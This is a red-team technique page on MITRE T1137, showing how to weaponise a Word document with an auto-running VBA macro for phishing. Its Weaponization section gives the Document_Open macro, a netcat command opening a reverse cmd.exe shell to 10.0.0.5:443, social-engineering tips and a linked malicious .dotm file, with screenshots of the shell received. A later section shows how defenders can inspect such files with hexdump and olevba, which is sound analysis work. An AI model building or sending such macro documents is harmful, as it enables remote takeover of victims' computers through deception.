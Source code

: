 ```yaml
---
description: Code execution with VBA Macros
---
```


# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document (CTRL+N)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode %}

{% code title="C:\tools\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode %}

This is how it should look roughly in:

![](../../../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../../../.gitbook/assets/macros-body.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../../../.gitbook/assets/macros-filename.png)

{% file src="../../../.gitbook/assets/doc3.dotm" %}
Dot3.dotm - Word Document with Embedded VBA Macros
{% endfile %}

## Execution

Victim launching the Doc3.dotm:

![](../../../.gitbook/assets/macro-victim.png)

...and enabling the content - which results in attacker receiving a reverse shell:

![](../../../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../../../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a WinZip or 7Zip and Strings utility or any type of Hex Editor to hand.&#x20;

Since Office files are essentially ZIP archives (PK magic bytes):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file Dot3.dotm can be renamed to **Doc3.zip** and simply unzipped like a regular ZIP archive. Doing so deflates the archive and reveals the files that make up the malicious office document. One of the files is the `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros themselves:

![](../../../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../../../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through it. This can sometimes give you as defender enough to determine if the document is suspicious/malicious.&#x20;

Running `hexdump -C vbaProject.bin` reveals some fragmented keywords that should immediately raise your suspicion - **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../../../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../../../.gitbook/assets/macros-olevba.png)

{% hint style="danger" %}
Note that the olevba can be fooled as per [http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1137" %}
